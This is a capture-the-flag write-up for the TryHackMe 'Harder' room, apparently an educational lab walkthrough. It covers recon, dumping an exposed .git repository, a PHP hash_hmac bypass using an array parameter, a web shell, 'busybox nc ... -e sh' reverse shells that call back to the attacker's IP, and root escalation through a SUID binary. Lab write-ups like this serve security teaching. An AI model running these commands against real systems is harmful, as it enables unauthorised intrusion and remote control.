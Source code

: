 ![[Capture d'écran 2025-02-16 210013.png]]   Real pentest findings combined (By [arcc](https://tryhackme.com/p/arcc))
### Recon 


First we need to scan the target machine (10.10.43.115) in order to find any open ports : 
```nmap 10.10.43.115 -p- -sV -sC -oN nmapres```


![[Pasted image 20250215155509.png]]

The scan reveals three open ports:

	- 2/tcp
	- 22/tcp
	- 80/tcp


I initially tried to find subdirectories using `gobuster`, but it didn’t return any results. So, I switched to `dirsearch`: 

```
dirsearch  -u http://harder.thm
```

![[Capture d'écran 2025-02-15 163232.png]]

Unfortunately, this scan didn’t reveal much either, except for the **PHP version: 7.3.19**.

Next, I checked the HTTP headers and discovered something interesting: `pwd.harder.local`.

![[Pasted image 20250215170112.png]]
This led me to a **login page**:

![[Pasted image 20250215171102.png]]


Now, I ran another enumeration scan on this new domain using: 
```
gobuster dir -u http://pwd.harder.local/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt  > gobusteres
```


![[Pasted image 20250215171815.png]]

This revealed a **`.git` repository (301)** and a **`.gitignore` file (200)**.

Checking the `.gitignore` file, I found two files of interest:
- `credentials.php`
- `secret.php`

![[Pasted image 20250215172322.png]]

I continued my enumeration using: `dirsearch  -u http://pwd.harder.local/`


![[Pasted image 20250215173822.png]]


To retrieve the repository locally, I used: `./gitdumper.sh http://pwd.harder.local/.git/  ./repo_harder`  to get the repository on my local machine : 

![[Pasted image 20250215174708.png]]

Among the retrieved files, I found `hmac.php`:


![[Capture d'écran 2025-02-15 193923.png]]

The script expects three parameters: : `h`, `host` and `n` . Looking into **PHP hash_hmac vulnerabilities**, : https://exploit-notes.hdks.org/exploit/web/php-hash-hmac-bypass/

We can bypass the PHP hash_hmac if we succed to set to `False` the third parameters ($secret) : `hash_hmac('sha256',hostname,false)` . And to exploit this, we need to set `n` as an **array**.

However, we must also bypass the following check:
	
	`if ($hm !== $_GET['h'])` ? 

To do this, I computed the expected **HMAC value** offline using a custom script:

**script.php :** 

````
<?php
$hm = hash_hmac('sha256', $_GET['host'], false);
print "hmac value : $hm"
?>
````

**payload :** `curl "http://localhost:8000/script.php?host=tryhackme.com"` 

Then we can get the hmac value for the `h` parameter : 

![[Capture d'écran 2025-02-15 201658.png]]

Now we have our three values for our three parameters : 

	- h  = 7e93acab486751d24a9129bb81cd387b0e2ba805635cfb219c4f10d6e3fd7198
	- host = tryhackme.com
	- n : Array


I then used **Burp Suite** to send the payload, which returned a **URL, username, and plaintext password**:

![[Capture d'écran 2025-02-16 201853.png]]

I added the new domain `shell.harder.local` to my **hosts file** and found another **login page**. I used the obtained credentials:

```
e<...>:9<...>
```

...and they worked!

![[Capture d'écran 2025-02-15 203030.png]]

However, I encountered an error message. To bypass it, I added an **`X-Forwarded-For` header** in my HTTP request:

![[Capture d'écran 2025-02-16 204928.png]]

![[Capture d'écran 2025-02-16 210933.png]]

Now, I could see a **web shell** using the `cmd` parameter:

![[Capture d'écran 2025-02-15 205941.png]]

I used the following command to establish a **reverse shell**: `cmd=busybox nc 10.23.31.32 4321 -e sh`

### Foothold

![[Capture d'écran 2025-02-15 215643.png]]

Now that I have a reverse shell, you can stabilize it using:

```
python3 -c "import pty; pty.spawn('/bin/ash')"
```

I then looked for more information and found the **user flag**:

![[Capture d'écran 2025-02-16 205348.png]]

Exploring further, I checked `/etc` and found **EVS’s password** inside the `periodic/evs-backup.sh` file :
![[Capture d'écran 2025-02-16 205554.png]]

I used it to switch to **evs’s account**:

![[Capture d'écran 2025-02-15 221856.png]]

Next, I searched for **SUID binaries** using:
```
find / -type f -perm -4000 2>/dev/null
```

![[Capture d'écran 2025-02-15 222637.png]]
### Privilege Escalation & Exploitation

Since I found a **SUID binary**, I suspected I could escalate privileges.
I created a file containing a **reverse shell command**:

```
echo -n "busybox nc  10.23.31.32 4242 -e sh" > command
gpg --symmetric --cipher-algo AES256 command
```

Then I've just typed a random passphrase `test`: 

![[Capture d'écran 2025-02-15 223802.png]]

Then retyped it :

![[Capture d'écran 2025-02-15 223824.png]]

After entering a passphrase (`test`), I executed:

```
/usr/local/bin/executed-crypted command.jpg
```

That asked me to retype the passphrase (`test`) : 

![[Capture d'écran 2025-02-15 223802.png]]

And I successfully obtained a root shell on my listener, allowing me to retrieve the **root flag** :

![[Capture d'écran 2025-02-16 205816.png]]

**Congratulations!** I hope you enjoyed this writeup. This CTF was a great exercise in **enumeration**, from identifying open ports and analyzing HTTP headers to exploiting misconfigurations and escalating privileges. It reinforced the importance of thorough reconnaissance and attention to detail.

Thanks for reading, and happy hacking!

![[Capture d'écran 2025-02-15 225142.png]]


